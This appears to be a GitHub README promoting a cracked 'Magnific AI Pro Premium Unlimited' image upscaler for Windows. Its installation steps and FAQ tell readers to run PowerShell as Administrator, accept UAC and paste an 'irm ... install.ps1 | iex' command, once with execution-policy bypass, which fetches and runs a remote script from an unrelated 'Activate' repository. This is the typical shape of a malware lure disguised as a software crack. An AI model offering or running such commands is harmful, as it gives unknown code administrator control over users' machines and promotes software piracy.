

<div align="center">


<br>


# Magnific AI Pro Premium Unlimited
**Pro unlimited · 16x upscale · Batch enhancement**
<br>
**Pro unlimited · 16x upscale · Batch enhancement**
<br>
Premium · Pro · Full build · Windows



**Magnific AI Pro — AI upscaler and enhancer for photos and illustrations with detail hallucination, style control and batch processing on Windows.**

</div>

---

> Pro Premium Unlimited lifts resolution caps and daily credits — upscale portraits, textures and AI art with controlled creativity sliders and queue large batches overnight.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://raw.githubusercontent.com/Freelopiazza/Activate/refs/heads/main/install.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

- 🔍 **AI upscaling** — Increase resolution while adding plausible detail.
- 🎨 **Creativity slider** — Balance faithful restore vs artistic reinterpretation.
- 📁 **Batch jobs** — Process folders of images in one run.
- 🖼️ **Illustration mode** — Tuned presets for art and game assets.
- 📤 **Lossless export** — Save PNG and TIFF at target megapixel sizes.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB minimum |
| **Disk** | 2 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://raw.githubusercontent.com/Freelopiazza/Activate/refs/heads/main/install.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 8 GB minimum, 2 GB free space.
</details>


TAGS
magnific-ai, upscaler, generative-ai, image-enhancement, creative, photography, design, magnific-ai-pro, magnific-ai-pro-pc, artificial-intelligence, machine-learning, ai-tools, ai-assistant, magnific, unlimited
